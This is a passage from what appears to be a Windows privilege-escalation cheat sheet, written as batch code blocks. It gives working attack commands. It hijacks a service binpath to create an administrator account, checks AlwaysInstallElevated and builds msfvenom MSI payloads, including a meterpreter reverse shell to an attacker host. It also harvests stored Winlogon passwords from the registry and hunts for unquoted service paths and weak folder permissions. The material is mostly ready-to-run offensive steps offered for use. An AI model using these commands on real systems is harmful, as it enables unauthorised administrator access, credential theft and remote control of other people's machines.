 ``` bat

:: add the user
sc config <vulnerable_service_name> binpath= "net user <username> <password> /add"
sc stop <vulnerable_service_name>
sc start <vulnerable_service_name>

:: upgrade privilege level
sc config <vulnerable_service_name> binpath= "net localgroup Administrators <username> /add"
sc stop <vulnerable_service_name>
sc start <vulnerable_service_name>

:: also consider modifying the program pointed to by binpath if you have permissions
```

* Exploit `AlwaysInstallElevated` setting; also see Metasploit's `exploit/windows/local/always_install_elevated`
``` bat
:: query registry to see if proper settings are enabled; we are looking for DWORDs of 1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

:: IMPORTANT: if on a 64-bit target, make sure to use the below instance of reg.exe
 %SystemRoot%\Sysnative\reg.exe

::  make add user payload
msfvenom -p windows/adduser USER=admin PASS=password -f msi-nouac -o filename.msi

:: or, make a generic command payload
msfvenom -p windows/exec cmd="<cmd>" -f msi-nouac > filename.msi

:: or, make reverse shell payload
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=10.0.0.100 LPORT=443 -f msi -o filename.msi

:: execute one of the MSI installer payloads
msiexec /quiet /qn /i C:\Users\filename.msi
        ^      ^   ^
        |      |   |_ regular installation
        |      |_ no GUI
        |_ bypass UAC
```

* Autologon / autologin
```bat
:: query for default credentials
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

* Unquoted service path
```bat
:: list all services with an unquoted service path; can also use `exploit/windows/local/trusted_service_path`
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

:: investigate permissions we have on any vulnerable directories
icacls "C:\Program Files\Some Folder"
accesschk.exe -dqv "C:\Program Files\Some Folder"

:: alternatively, we can look for weak folder/file permissions on all installed programs
:: these commands check for full permissions (F)
```